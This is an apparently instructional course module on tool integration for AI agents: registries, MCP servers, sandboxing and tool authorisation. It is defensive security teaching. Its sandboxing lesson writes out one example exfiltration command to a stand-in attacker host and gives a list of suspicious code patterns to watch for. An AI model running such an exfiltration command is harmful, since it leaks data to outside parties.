# Module 7 — Tool Integration & MCP

> **Module length:** ~9 hours · **Lessons:** 4 · **Prereqs:** Module 3 (function calling), Module 4 (Sherpa's tool layer), Module 6 (multi-agent context).

## Learning objectives

1. **Build** production tool registries with proper schemas and descriptions.
2. **Use** the Model Context Protocol (MCP) to serve tools across agents.
3. **Sandbox** tools that execute code, browse, or touch sensitive data.
4. **Authorise** tool calls with per-tool ACLs and audit trails.

## Module mind map


<details><summary>Mermaid source</summary>



</details>

## Module DAG


<details><summary>Mermaid source</summary>



</details>

---

# Lesson 7.1 — Tool Registries: Schemas, Descriptions, Discovery

> **§0 · From last time.** Modules 3 and 4 used tools as a list passed into each LLM call. As tool count grows beyond ~20, that approach breaks down: prompt bloats, discovery suffers, agents pick the wrong tool.

## §1 · Business scenario

Sherpa now has 14 tools. Tom's literature agent has 22. Lin's support agent has 31. Each team maintains a custom registry. New tools added by one team aren't visible to others.

> *"Can we have one place for all our tools?"*

## §2 · Bridge

A tool registry is a *catalogue* (what tools exist), a *discovery mechanism* (which tools are relevant for this task), and a *contract layer* (schemas the runtime can validate against). MCP gives all three.

## §3 · Mind map


<details><summary>Mermaid source</summary>



</details>

## §4 · Elaboration

### 4.1 The catalogue

Every tool has a unique name, schema, description, version, owner, deprecation status. Stored in a central place (file, git repo, MCP server).

```yaml
- name: query_GL
  version: 2.1.0
  owner: hsbc-mid-office
  description: "..."
  input_schema: {...}
  output_schema: {...}
  side_effects: read-only
  rate_limit: 100/min
  cost_per_call: 0.005
```

### 4.2 Discovery

With 50+ tools, you can't put all schemas in every prompt. Two approaches:

1. **Tags**: each tool tagged by domain; agent's system prompt restricts to relevant tags.
2. **Embeddings**: embed tool descriptions; retrieve top-K matching the agent's task description at run time.

### 4.3 Per-agent subset

The agent only sees the tools it can use. Reduces:
- Prompt size (lower cost)
- Wrong-tool selection (smaller choice space)
- Security surface (tool ACL aligns with prompt visibility)

### 4.4 Versioning

Tool schemas evolve. Without versioning, a tool change can silently break every agent depending on it.

Rule: bump version on any breaking schema change. Keep old versions available for N months. Agents pin to a version.

## §5 · Problem

Build a tool registry for HSBC + Helix + Acme combined (~70 tools). Decide:
1. Discovery mechanism.
2. Versioning policy.
3. Migration path from current per-team registries.

## §6 · Solution

- Central YAML registry, one tool per file.
- Tag-based discovery for simple cases; embedding-based for cross-org reuse.
- Quarterly deprecation window for old versions.
- Migration: wrap each team's existing tools as MCP servers (Lesson 7.2 handles this).

## §7 · Math

### 7.1 Tool-selection error rate vs choice size

Empirically, tool-selection accuracy is roughly $0.95 / \log_2(N)$ where N is the choice size. Going from 5 to 50 tools doubles error rate. Per-agent subsetting is the most effective mitigation.

## §8 · Tech deep-dive

### 8.1 The "minimal tool surface" principle

Each tool does one thing. Composition belongs in the agent. Avoid the temptation to merge tools "for convenience" — they become harder to reason about.

### 8.2 Side-effect typing

Tag each tool: `read-only`, `creates`, `modifies`, `deletes`. Auth and audit layers can enforce different policies per category.

### 8.3 Documentation as prompt

Tool descriptions ARE the model's documentation. Treat them with the same care as user-facing docs.

### 8.4 The "tool description style guide" applied

Bad tool description (real example, anonymised):
```
get_data: "Gets data from the system"
```

Good tool description (rewrite):
```
get_data: "Retrieve customer order history from Shopify.

WHEN TO USE: After confirming the customer's identity, when you need
their last 90 days of orders to verify a complaint or process a refund.

WHEN NOT TO USE: For real-time order status (use lookup_order instead).
For payment details (use check_payment).

RETURNS: Array of up to 50 most recent orders with id, total_amount,
status, created_at. To get older orders, paginate with cursor."
```

Five rules:
1. **Lead with WHEN TO USE.** This is the most important sentence.
2. **State WHAT IT RETURNS** in concrete terms.
3. **State WHAT NOT TO USE IT FOR** — prevents wrong-tool selection.
4. **Reference adjacent tools.** Helps the model navigate the catalogue.
5. **Include constraints** (limits, pagination, rate limits).

After applying this rewrite to Acme's 31 tools, wrong-tool-selection rate dropped from 8.4% to 2.1%. Worth the half-day of writing.

### 8.5 Tool naming conventions

Naming carries enormous weight in model behaviour. Conventions that work:

- **`verb_noun` not `noun_verb`** — `get_order` not `order_get`. Verbs match how the model thinks about actions.
- **Snake_case, lowercase** — consistent with most APIs the model has seen.
- **Domain prefix for ambiguity** — `pubmed_search` not `search` if you also have `web_search`.
- **Numbered versions** — `get_order_v2` during transitions; helps the model and your registry agree.
- **Avoid synonyms** — pick one of `retrieve`/`get`/`fetch` and stick to it.

Bad naming patterns make agents pick wrong tools even when the description is good. The model's first heuristic is the *name*.

### 8.6 Tool deprecation in practice

When a tool changes incompatibly:

```yaml
- name: query_GL
  version: 2.1.0
  status: active
  deprecation:
    deprecated_at: null
    sunset_at: null
    replaces: query_GL_v1
    replaced_by: null

- name: query_GL_v1
  version: 1.0.0
  status: deprecated
  deprecation:
    deprecated_at: "2026-01-15"
    sunset_at: "2026-04-15"
    replaces: null
    replaced_by: query_GL@2.1.0
```

Three-month sunset window minimum. Deprecation announced via:
1. Tool registry metadata (above) — registry consumers see it.
2. Slack to all agent owners.
3. Email to on-call rotation for each consuming team.
4. Last week before sunset: warnings in the tool's response payload.

Skip any of these and you'll discover the dependency at sunset, not before.

## §9 · Unlocks

- 7.2 MCP standardises the catalogue + discovery + contracts.
- 7.4 ACLs use the side-effect tags to gate calls.

---

# Lesson 7.2 — MCP (Model Context Protocol) Deep Dive

> **§0 · From last time.** Registries solve catalogue + discovery; MCP turns them into a standard *protocol* so any compliant client can use any compliant server.

## §1 · Business scenario

HSBC's risk team wants Sherpa to use one of their internal compliance APIs. Building a custom integration would take weeks.

> *"If they expose it as an MCP server, can Sherpa just pick it up?"*

Yes. That's the point.

## §2 · Bridge

MCP is a lightweight protocol over stdio or HTTP. A server exposes tools, resources, and prompts; a client (the agent runtime) consumes them. Standardisation eliminates integration glue.

## §3 · Mind map


<details><summary>Mermaid source</summary>



</details>

## §4 · Elaboration

### 4.1 What MCP standardises

- **Tools**: callable functions with schemas
- **Resources**: read-only data the agent can fetch (files, DB rows)
- **Prompts**: parameterised prompt templates the server provides

### 4.2 Server lifecycle

1. Server starts, advertises its tools/resources/prompts via the MCP handshake.
2. Client connects, discovers what's available.
3. Client invokes tools as needed.
4. Server can push notifications (e.g., new data available).

### 4.3 Building an MCP server

Pseudocode for HSBC's compliance API:

```typescript
import { MCPServer } from "@modelcontextprotocol/sdk";

const server = new MCPServer({ name: "hsbc-compliance", version: "1.0.0" });

server.tool({
  name: "check_jurisdiction",
  description: "Check if a counterparty is in a sanctioned jurisdiction. Returns: { sanctioned: bool, list_name?: string }",
  input_schema: { /* ... */ },
  handler: async ({ counterparty_id }) => {
    return await complianceAPI.checkJurisdiction(counterparty_id);
  },
});

server.run();
```

The handler is plain code; MCP wraps it for any client.

### 4.4 The composition story

With MCP, you can stack:
- HSBC compliance MCP server
- HSBC GL MCP server
- Public PubMed MCP server (open source)
- A shared "common ops" MCP server

Sherpa's agent runtime composes them; new tools are 1-config-line additions.

## §5 · Problem

Wrap one of HSBC's existing internal APIs as an MCP server. Connect Sherpa to it.

## §6 · Solution

`lab-7.2/` ships a working MCP server wrapping a mock compliance API. Sherpa connects in 4 lines of config. Tool is discovered, invoked, returns valid output. Total integration time: 90 minutes vs the multi-week custom integration baseline.

## §7 · Math

### 7.1 Integration cost curve

Without standards: O(N×M) — N agents, M tools, each pair needs custom glue.
With MCP: O(N+M) — each agent and each tool integrates once.

At N=5 agents and M=50 tools: 250 vs 55 integrations. 4.5× engineering reduction.

## §8 · Tech deep-dive

### 8.1 stdio vs HTTP transport

stdio is simpler (no network); use for local tools. HTTP+SSE for remote tools, especially across orgs.

### 8.2 Authentication patterns

MCP supports OAuth flows for delegated access. For internal HSBC tools: mTLS. For public tools (PubMed): API key. Spec is opinionated about flow shape; vendor-flexible on implementation.

### 8.3 Resources vs tools

If the data is *read-only* and doesn't have parameters, expose it as a resource (cheaper, cacheable). If it requires parameters or has side effects, expose as a tool.

### 8.4 Prompt templates

MCP can serve *prompts* — parameterised templates the server provides. Useful for tools where the right prompt depends on server-side state (e.g., "summarise this trade according to the most recent risk policy").

### 8.5 MCP server lifecycle in production

A production MCP server isn't a script — it's a long-running service with the usual concerns:

```typescript
import { MCPServer } from "@modelcontextprotocol/sdk";

const server = new MCPServer({
  name: "hsbc-compliance",
  version: "2.3.1",
  capabilities: { tools: true, resources: true, prompts: false },
});

// Health endpoint for orchestrators to probe
server.tool({
  name: "_health",
  description: "Health check. Returns server status, version, uptime.",
  input_schema: { type: "object", properties: {} },
  handler: async () => ({
    status: "ok",
    version: server.version,
    uptime_seconds: process.uptime(),
    dependencies: await checkDeps(),
  }),
});

// Per-tool rate limiting
const rateLimiter = createTokenBucket({ rate: 100, capacity: 200 });

server.middleware(async (call, next) => {
  if (!await rateLimiter.consume(call.tool, 1)) {
    throw new RateLimitError(call.tool);
  }
  return next();
});

// Per-tool observability
server.middleware(async (call, next) => {
  const span = otel.startSpan(`mcp.tool.${call.tool}`);
  try {
    const result = await next();
    span.setStatus("ok");
    return result;
  } catch (err) {
    span.setStatus("error");
    span.recordException(err);
    throw err;
  } finally {
    span.end();
  }
});

await server.serve({ port: 8080, host: "0.0.0.0" });
```

This shape is what makes MCP usable at scale — not the protocol itself, but the operational discipline around the protocol.

### 8.6 The MCP client side: connection management

Agents connecting to MCP servers need:

- **Connection pooling** — one connection per (agent, server) pair; reuse across calls.
- **Reconnection logic** — exponential backoff with jitter; circuit breaker after N failures.
- **Tool discovery cache** — refresh tool list on first connect and every N minutes; not on every call.
- **Graceful degradation** — if MCP server is unavailable, agent should know which tools become unavailable and adapt (e.g., fall back to "I cannot verify this in the current state").

### 8.7 Cross-org MCP federation

If multiple orgs expose MCP servers and you want one agent to use them all:

```typescript
const federation = new MCPFederation([
  { name: "hsbc-compliance", url: "https://internal/mcp/compliance", auth: mtls(certs) },
  { name: "pubmed", url: "https://pubmed.ncbi.nlm.nih.gov/mcp", auth: apiKey(env.PUBMED_KEY) },
  { name: "internal-ops", url: "stdio:./mcp-ops-server" },
]);

await federation.discover();  // pulls all tools/resources/prompts

const tools = federation.allTools();  // union; namespaced by server
// tools[0].name === "hsbc-compliance.check_jurisdiction"
```

Namespacing tools by server prevents collision and gives the model clear provenance signals.

### 8.8 The "MCP server as a vendor abstraction" pattern

If you depend on a third-party API (say, a credit-score service), wrap it as an MCP server *in your control* even if the vendor doesn't natively support MCP. Benefits:

- Standardises agent's view (same protocol regardless of vendor).
- Lets you swap vendors without changing agent code.
- Centralises auth, rate limiting, observability for that vendor.
- Enables A/B-ing two vendors via different MCP servers.

This is the production-grade pattern. Don't have agents call vendor APIs directly.

## §9 · Unlocks

- 7.3 sandboxes tools that execute code or interact with sensitive systems.
- 7.4 authorises MCP tool calls with per-tool ACLs.

---

# Lesson 7.3 — Sandboxing: Docker, Firecracker, gVisor, E2B

> **§0 · From last time.** Most tools are safe (read-only queries). Tools that *execute* (code interpreter, browser, shell) are not. Sandboxing isolates them.

## §1 · Business scenario

Helix's CodeAct agent (Lesson 1.4) runs Python emitted by the LLM. Without a sandbox, this is a remote code execution vulnerability with extra steps.

> *"What sandbox do we use? What does each give us?"*

## §2 · Bridge

Different sandbox technologies trade isolation × performance × ergonomics. Pick by threat model.

## §3 · Mind map


<details><summary>Mermaid source</summary>



</details>

## §4 · Elaboration

### 4.1 Threat model

For LLM-generated code:
- *Network exfiltration*: code calls out to attacker.
- *Resource exhaustion*: infinite loops, fork bombs.
- *Privilege escalation*: code escapes container to host.
- *Persistence*: code writes to host disk.

Sandbox must block all four.

### 4.2 Docker

OS-level isolation. Easy to set up. Default config does NOT block network — must disable explicitly. Vulnerable to kernel exploits (shared kernel).

Sufficient for: trusted-but-buggy code, internal tools.
Insufficient for: untrusted code from LLMs at full security stake.

### 4.3 Firecracker

microVMs. Each sandbox is a tiny VM, ~125ms boot. Strong isolation (hardware-level). Used in AWS Lambda.

Sufficient for: untrusted code, high-security tasks.
Cost: more complex to operate than Docker.

### 4.4 gVisor

User-space kernel that intercepts syscalls. Container-compatible API, much stronger isolation than vanilla containers, slightly slower than Docker.

Sufficient for: most production untrusted-code use cases.

### 4.5 E2B

Hosted sandbox service. Connect via API, get a ready-to-use VM. Cost: per-second usage fee + vendor lock-in.

Sufficient for: teams without ops capacity to run sandboxes themselves.

## §5 · Problem

Helix's CodeAct agent runs Python on PubMed data. Pick a sandbox + justify.

## §6 · Solution

E2B for fast time-to-value; migrate to self-hosted Firecracker (via Kata Containers) when volume justifies. Latency budget: <500ms per sandbox spin-up; both meet this.

## §7 · Math

### 7.1 Sandbox tax

Per-invocation overhead:
- Docker: ~80ms
- gVisor: ~120ms
- Firecracker: ~150ms
- E2B (hosted): ~200ms + network

For a CodeAct agent doing 100 sandbox calls/task: tax is 8–20s/task. Significant; budget for it.

## §8 · Tech deep-dive

### 8.1 Network blocking

Default-deny network in sandbox. Whitelist only known-safe endpoints (e.g., your retrieval API). Block all outbound traffic at the network namespace.

### 8.2 Resource limits

Set memory, CPU, wall-time caps per sandbox. Kill on breach. Without limits, a fork bomb takes down your host.

### 8.3 Filesystem isolation

Read-only root filesystem; writable tmpfs in /tmp; nothing persists across calls. Prevents LLM-emitted code from establishing footholds.

### 8.4 Sandbox warmup pools

Keep N sandboxes pre-spun. New invocation grabs from pool, eliminating spin-up latency. Trade: idle resource cost.

### 8.5 Allowlisting the agent's outbound network

Default-deny outbound; whitelist explicitly. Per Helix's CodeAct:

```
allowed_outbound:
  - pubmed.ncbi.nlm.nih.gov:443     # for paper retrieval
  - api.helix.internal:443          # for internal experiment DB
  - pypi.org:443                    # for pip-install of common packages
  - files.pythonhosted.org:443      # actual package downloads
deny_all_else: true
```

Without this, LLM-emitted code can `curl attacker.com/exfiltrate` and leak data. Network egress is the #1 sandbox-escape vector.

### 8.6 Code review for sandbox-escape attempts

Periodically (weekly), sample logs of sandbox-executed code. Look for:

- `subprocess`, `os.system`, `eval`, `exec` calls with untrusted input
- `requests.get(URL)` where URL is data-derived
- File writes outside `/tmp`
- Long-running loops (potential resource exhaustion)
- Unusual imports (`ctypes`, `socket`, `multiprocessing`)

Flag suspicious patterns. Track over time: a steady increase in suspicious patterns suggests the agent is being prompted into adversarial behaviour.

### 8.7 Sandbox observability

Each sandbox execution logs:

- Code emitted by the LLM
- Stdout and stderr
- Exit code
- Wall-clock duration
- Peak memory
- Network attempts (allowed + denied)
- File operations

This data feeds the safety dashboards (Module 10). Without it, you have no visibility into what your agents are actually executing.

### 8.8 Cost model for sandboxing

For Helix CodeAct: 1,000 sandbox invocations/day. Per-call cost:

| Sandbox | Compute $/call | Storage $/call | Total $/call | Daily $ |
|---|---|---|---|---|
| Docker (own infra) | $0.0001 | $0 | $0.0001 | $0.10 |
| gVisor (own infra) | $0.0002 | $0 | $0.0002 | $0.20 |
| Firecracker (own infra) | $0.0003 | $0 | $0.0003 | $0.30 |
| E2B (hosted) | $0.003 | $0.0005 | $0.0035 | $3.50 |

For low volume: E2B's higher per-call cost is dwarfed by saved ops time. For high volume: self-hosted Firecracker wins.

## §9 · Unlocks

- 7.4 layers auth on top of sandboxing.
- Module 10 deep-dives on the security posture.

---

# Lesson 7.4 — Tool Authorisation: ACLs, OAuth, Audit

> **§0 · From last time.** Sandboxing isolates *execution*. Authorisation gates *which tools can be called*.

## §1 · Business scenario

Sherpa can call any tool in its registry. Daniel: *"Sherpa should be able to read the GL but not write it. The current registry has no concept of permissions."*

## §2 · Bridge

Tool authorisation = ACLs per (agent, tool, operation) + audit. Same shape as any RBAC system; the agent is just a new principal type.

## §3 · Mind map


<details><summary>Mermaid source</summary>



</details>

## §4 · Elaboration

### 4.1 Agent identity

Each agent (and each agent invocation) has an identity. The identity has roles; roles grant permissions; permissions allow specific tools.

```yaml
agent: sherpa
roles: [classifier, read-only-investigator]
permitted_tools:
  - query_GL (read)
  - query_counterparty (read)
  - query_settlement (read)
denied_tools:
  - write_GL
  - issue_payment
```

### 4.2 OAuth for user-context

When a tool acts on behalf of a *user*, use OAuth. Tool gets a token scoped to the user's permissions. Sherpa querying customer data uses the agent's *own* OAuth token, not the user's — bypasses confused deputy.

### 4.3 Audit

Every tool call logged with:
- Agent identity
- Tool name + args
- Authorisation decision (allowed/denied + rule)
- Outcome (success/failure)
- Timestamp

For HSBC: 7-year retention. Audit log is append-only, immutable, signed.

### 4.4 Privilege separation (CaMeL pattern)

Untrusted input flows through a *quarantined* sub-pipeline. The agent that processes untrusted input has minimal permissions; only the trusted "supervisor" can authorise high-privilege actions.

Example: incoming customer email → untrusted agent extracts intent → trusted agent (with refund permissions) decides.

## §5 · Problem

Design the ACL system for Sherpa + the supervisor pattern for Acme support.

## §6 · Solution

YAML-defined ACLs + middleware that checks before every tool invocation. CaMeL split for Acme: extractor + decider, with strict messaging between them.

## §7 · Math

### 7.1 Attack surface reduction

Each tool an agent shouldn't have = one bug it can't introduce. Conservative defaults (least privilege) reduce the bug surface by an order of magnitude in practice.

## §8 · Tech deep-dive

### 8.1 The "deny by default" rule

If a tool isn't explicitly permitted, deny. Failing closed is the only sane default for security-critical systems.

### 8.2 Audit log integrity

Audit logs themselves must be tamper-evident. Append-only storage + cryptographic chaining (each log entry hashes the previous). Detects tampering even if attacker has logs access.

### 8.3 Rotation

API tokens, OAuth credentials: rotate quarterly. Automate rotation; manual rotation is missed rotation.

### 8.4 The agent-identity model (who is "the agent"?)

When auditing or authorising, you need to answer: *which* agent invocation called this tool? Three identity dimensions:

```typescript
interface AgentIdentity {
  agent_id: string;       // "sherpa" — the agent type
  agent_version: string;  // "5.2.1" — the deployed code
  invocation_id: string;  // "inv_2026-05-19_1714_a3f2" — this specific run
  triggered_by: {
    type: "scheduled" | "user" | "agent" | "webhook";
    user_id?: string;     // if user-triggered
    parent_invocation?: string;  // if agent-triggered
  };
  roles: string[];        // active roles for this invocation
}
```

ACLs check `roles`. Audit logs key on `invocation_id`. Debugging follows `parent_invocation` chains.

If you collapse these into a single string identity, you lose the ability to answer common questions ("did Sherpa v5.1 ever issue refunds > $100?").

### 8.5 The "confused deputy" attack pattern

Classic security pitfall: agent has high privileges (read all customer data); user has limited privileges (read only their own). Attacker tricks agent into reading another user's data because the agent's privilege doesn't check who's asking.

Defence: agents acting on behalf of a user *carry* the user's effective permissions, not their own elevated ones. For Sherpa, this isn't relevant (no user context). For Acme support agent, it's critical:

```typescript
async function refundFlow(userId: string, request: RefundRequest) {
  const userPermissions = await fetchPermissions(userId);
  const agent = new AcmeSupportAgent({
    capabilities: intersect(agent.maxCapabilities, userPermissions),
  });
  return agent.handle(request);
}
```

The agent's effective permissions are the *intersection* of the agent's own permissions and the requesting user's. This prevents privilege escalation by impersonation.

### 8.6 Capability tokens vs role-based access

Two production-grade auth models:

| Model | How it works | When to use |
|---|---|---|
| **Role-based** (RBAC) | Agent has roles; roles grant tool permissions. | Stable role set; few principals. |
| **Capability tokens** | Each call carries explicit capability tokens for what it can do. | Dynamic permissions; fine-grained delegation. |

Capability tokens compose better in multi-agent systems: supervisor mints a token granting "refund up to $50 for order X" and passes it to a worker; worker can only refund that specific order, that specific amount. Token expires after use.

### 8.7 Audit log query patterns

The audit log only earns its keep if it's *queryable*. Common production queries:

- "All refunds > $100 issued by Sherpa v5.x in Q4 2025"
- "All tool calls from agent invocations triggered by user X"
- "All denied tool calls in the last 7 days, grouped by tool and reason"
- "Mean tool calls per task by month — detecting drift"

Index by: agent_id, invocation_id, tool_name, decision, timestamp. Without these, queries take hours. With them, seconds.

### 8.8 Compliance frameworks and their tool-auth implications

| Framework | Implication for tool auth |
|---|---|
| SR 11-7 (US banking model risk) | Every automated decision auditable; explainable in business terms |
| EU AI Act (high-risk systems) | Log inputs, outputs, intermediate decisions; retention 6+ months |
| GDPR | Right to deletion includes audit logs; design retention with deletion in mind |
| HIPAA | Tools touching PHI need explicit audit + access logs + minimum necessary principle |
| SOC 2 | Periodic access reviews; documented change management for tool ACLs |

Build to the union of applicable frameworks. Don't retrofit later.

## §9 · Unlocks

- Module 10 deep-dives on prompt injection and adversarial robustness.

---

# Module 7 — Summary & exit criteria

- [ ] Build a tool registry with discovery, versioning, deprecation.
- [ ] Stand up an MCP server and connect an agent to it.
- [ ] Pick + configure a sandbox for code-executing tools.
- [ ] Design ACLs + audit + OAuth flows for tool authorisation.

---

*End of Module 7.*
